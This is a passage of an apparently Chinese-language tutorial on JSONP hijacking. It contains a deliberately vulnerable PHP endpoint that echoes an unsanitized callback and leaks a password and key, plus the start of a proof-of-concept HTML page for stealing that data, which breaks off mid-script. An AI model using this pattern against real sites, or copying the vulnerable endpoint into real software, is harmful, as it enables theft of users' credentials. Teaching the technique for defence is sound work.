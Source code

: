 
---
# JSONP
  
JSONP（JSON with Padding）是一种用于解决跨域数据请求的变通方案，其核心原理：

**利用`<script>`标签的跨域特性绕过同源策略**。

就是加载远程js文件绕过同源策略，传入的参数中有构成函数

<h2><center>漏洞原理-利用</center></h2>
在早期，前后端分离等技术还不成熟的时候，这种问题实际上是非常常见的。很多开发者的设计方法简单粗暴，一个简单的例子，一个A论坛，有一个返回用户信息的接口，开发者的设计理念是，用户在登录状态下访问网站，会调用这个接口，这是一个jsonp接口，返回的内容就是：

xxxxx({ username: "Sentim", password: "123456" })

我们只需要找出这个jsonp接口，然后按上述方法加工成jsonp.html，如果一个在A论坛处于登陆状态的用户不慎访问到了黑客在网站B部署的jsonp.html，那么我们就可以获取用户的敏感信息了

demo,   `http://test:8069/test.php`

```php
<?php

header('Content-type:application/json');

error_reporting(0);

session_start();

$callback=$_GET['callback'];

$name=$_GET['name'];//模拟admin的session

if($name=='admin'){

    echo $callback."({'id':1,'name':'Sentiment','pwd':'123456','key':'88888'})";

}

?>
```
假设用户在admin权限下访问`http://test:8069/test.php?callback=testme`
返回
testme({'id':1,'name':'Sentiment'})
可以把这些敏感数据外带

编写POC
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>poc</title>

    <!-- 使用$s需要加载js文件 -->
    <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

</head>

  
<body>

    <script>
        function testname(v) {
           alert("json hack");
            var h = '';
```